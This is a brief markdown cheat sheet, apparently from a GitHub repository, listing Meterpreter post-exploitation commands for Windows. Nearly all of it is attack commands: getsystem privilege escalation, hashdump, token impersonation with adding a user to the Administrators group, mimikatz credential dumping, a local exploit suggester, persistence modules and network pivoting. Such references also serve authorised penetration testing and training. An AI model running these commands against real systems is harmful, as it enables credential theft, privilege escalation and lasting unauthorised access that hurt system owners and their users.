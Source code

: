 # windows meterpreter

## shell access (cmd & powershell)

1. for cmd.exe `shell`
2. for powershell
    1. `load powershell`
    2. `powershell_shell`

## windows specific commands

```bash
getuid
getsystem
getprivs

migrate <system-process>

hashdump
```

## incognito | [milkdevil/incognito2](https://github.com/milkdevil/incognito2)

```bash
load incognito
list_tokens [-u | -g]
impersonate_token "<token>"

# for better results
migrate <pid>
add_user <user> <pass>
add_localgroup Administrators <user>
```

## mimikatz

```bash
load kiwi
creds_all
```

## local exploit suggester

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <>; run
```

## Persistence

```bash
persistence -h
use exploit/windows/local/persistence
use exploit/windows/local/registry_persistence

run scheduleme
run schtaskabuse
```

## autoroute

```bash
run autoroute -s IP/CIDR
run autoroute -p
[OR]
use post/multi/manage/autoroute
```